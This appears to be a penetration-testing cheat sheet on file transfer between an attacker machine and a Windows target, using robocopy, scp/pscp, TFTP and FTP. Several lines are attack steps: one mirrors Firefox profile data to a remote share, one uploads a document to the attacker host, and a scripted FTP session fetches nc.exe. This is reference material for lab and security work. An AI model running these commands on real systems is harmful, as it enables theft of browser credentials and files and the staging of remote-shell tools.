 ### robocopy

{% code overflow="wrap" fullWidth="true" %}
```sh
robocopy C:\users\$USER\appdata\roaming\mozilla\firefox\profiles \\10.10.14.15\share /MIR
```
{% endcode %}

### Long filename with symbols

```bash
# If the file is file_sdfljsdjf_dsfjlsdkfjl.pdf
copy file* # this interprets the whole fullname
```

### scp / pscp

{% code overflow="wrap" %}
```bash
scp $USER@$IP:$PATH $FILEPATHTOSAVETHEFILE
# To copy a file from a local to a remote system run the following command:
scp (-i id_rsa) file.txt remote_username@10.10.0.2:/remote/directory

pscp.exe (NOT PUTTY) or pscp64.exe, depending on the Windows architecture.
# 1 - Upload pscp.exe/pscp64.exe on the Windows machine
# 2 - service ssh start on the Linux machine
# 3 - pscp64.exe -P 22 $WINDOWS_PATH $LINUX_USER@HOST:$LINUX_PATH
# Say yes to store the keys and input the password.
# NOTE: Do not use the root user on Linux unless root login is allowed on sshd_config
# NOTE2: To transfer a folder, use -r flag.
# FROM LINUX TO WINDOWS
pscp64.exe -P 22 kali@192.168.33.10:/tmp/file \C:\Users\Admin\Desktop\
```
{% endcode %}

### FTP / TFTP

{% code overflow="wrap" %}
```bash
# THIS SMALL SECTION SEEMS TO WORK ONLY FOR WINDOWS XP AND 2003 OR OLDER.
kali@kali:~$ sudo apt update && sudo apt install atftp 
kali@kali:~$ sudo mkdir /tftp  
kali@kali:~$ sudo chown nobody: /tftp 
kali@kali:~$ sudo n atftpd --daemon --port 69 /tftp
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx

# NOTE: IF THERE ARE PROBLEMS WITH FTP TRANSFERS ON WINDOWS, CHECK IF ACTIVE STATUS AND ACTIVE MODE ARE ENABLED
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> binary
# Using nc
quote pasv off
quote acti
bin

# FTP
kali@kali sudo systemctl restart pure-ftpd #start FTP on our Kali VM
C:> echo open 10.10.0.0 21> ftp.txt # connection to our Kali VM
echo USER offsec>> ftp.txt # credentials
echo lab>> ftp.txt
echo bin >> ftp.txt # binary mode
echo GET nc.exe >> ftp.txt # transfer the file
echo bye >> ftp.txt
C:> ftp -v -n -s:ftp.txt
```